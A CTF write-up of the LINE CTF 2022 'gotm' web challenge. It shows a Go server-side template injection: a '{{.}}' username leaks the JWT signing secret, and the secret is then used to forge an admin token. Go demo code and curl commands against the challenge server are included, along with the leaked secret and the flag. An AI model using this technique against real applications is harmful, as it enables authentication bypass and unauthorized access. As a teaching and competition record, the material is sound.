 ```yaml
---
title: "[web] gotm (golang ssti) [line ctf 2022]"
date: 2022-03-28 18:47:59
tags:
    - ctf
    - writeup
    - web
categories:
    - CTF
---
```


# 0x1 tl;dr

gotm, a web question in linectf 2022. This is a very good example of golang **server side template injection (ssti)**

# 0x2 Vulnerability

take a brief a look at the code. In order to get the flag. we need to visit `/flag` whici is handled by `flag_handler`. 

`flag_handler` require a jwt token with `IsAdmin=True`. Therefore, in order to forge that, we need to have the secret of jwt token.

<!-- more -->

```
func flag_handler(w http.ResponseWriter, r *http.Request) {
    token := r.Header.Get("X-Token")
    if token != "" {
        id, is_admin := jwt_decode(token)
        if is_admin == true {
            // write flag
            return
        } else {
            w.WriteHeader(http.StatusForbidden)
            return
        }
    }
}
```

Then, the problem become how to get the jwt token from the server. 

In order to get the jwt secret, we need to use a ssti vulnerable in the `root_handler`. 

`root_handler` first obtain a `Account` struct from the token and print out the user id using template rendering. 

Since we can control the value in `acc.id` by register an account. We can inject arbitrary code into the template.
```
type Account struct {
    id         string
    pw         string
    is_admin   bool
    secret_key string
}
...
func root_handler(w http.ResponseWriter, r *http.Request) {
    ...
    acc := get_account(id)
    ...
    tpl, err := template.New("").Parse("Logged in as " + acc.id)
    ...
    return
}

```

# 0x3 Some useful go ssti injection

1. `{{.}}` will print out the whole struct that being passed
2. `{{.PublicField}}`  will print out the public field
3. `{{printf "%s" "asdf"}}` will do a normal printf thing

```
package main

import (
    "os"
    "text/template"
)

type SSTI struct {
    privateMember         string
    PublicMember         string
    value   int
}

func main() {
    ssti := SSTI{
        privateMember : "private",
        PublicMember : "public",
        value : 1,
    }
    tpl, _ := template.New("").Parse("Here is {{.}} \n")
    tpl.Execute(os.Stdout, ssti) // print "Here is {private public 1}"
    tpl, _ = template.New("").Parse("Here is {{.PublicMember}} \n")
    tpl.Execute(os.Stdout, ssti) // print "Here is public"
    tpl, _ = template.New("").Parse("Here is {{printf \"%s\" \"asdf\"}} \n")
    tpl.Execute(os.Stdout, ssti) // print "Here is asdf""
}

```

# 0x4 Solution

1. register as userid =  `{{.}}` using `/regist`
2. get token using `/auth` to get a token
3. using this token to get jwt secret (which is `fasdf972u1031xu90zm10Av`)
4. using the jwt secret to forget a jwt token.
5. get the flag

```
$ curl --request GET 'http://34.146.226.125/regist?id=%7B%7B%2E%7D%7D1&pw=asdf'
{"status":true,"msg":""}


$ curl --request GET 'http://34.146.226.125/auth?id=%7B%7B%2E%7D%7D&pw=asdf'
{"status":true,"token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6Int7Ln19IiwiaXNfYWRtaW4iOmZhbHNlfQ.rthp4OaE1Iau8Q9PIxoB-F9VGukYpbX1I-GpPPDSGhM"}


$ curl --header 'X-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6Int7Ln19IiwiaXNfYWRtaW4iOmZhbHNlfQ.rthp4OaE1Iau8Q9PIxoB-F9VGukYpbX1I-GpPPDSGhM' --request GET 'http://34.146.226.125/'
Logged in as {{{.}} asdf false fasdf972u1031xu90zm10Av}

$ curl --header 'X-Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6Int7Ln19IiwiaXNfYWRtaW4iOnRydWUsImlhdCI6MTY0ODUyMjgzMn0.nsbn28xiVYZkPPJqAJYv01PEGYuugWBIyriBaB7hcIY' --request GET 'http://34.146.226.125/flag'
{"status":true,"msg":"Hi {{.}}, flag is LINECTF{country_roads_takes_me_home}"}
```